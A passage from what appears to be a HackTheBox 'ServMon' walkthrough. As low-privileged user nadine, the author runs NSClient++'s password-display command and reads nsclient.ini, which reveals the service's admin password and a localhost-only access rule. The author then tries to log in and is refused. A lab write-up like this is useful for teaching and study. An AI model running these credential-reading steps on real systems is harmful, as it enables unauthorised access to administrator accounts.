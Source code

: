 ```
```

So Accoding to exploit a `low privileged` user have the ability to read the the `Administrator Password` for the service 

```bash
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT

nadine@SERVMON C:\Program Files\NSClient++>
```
We got the `Admin Passowrd` let's try to login

![Servmon](/assets/img/post/hackthebox/servmon/3.png)

You are not allowed

Let's Check Config File

```bash
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
╗┐# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
.............
```

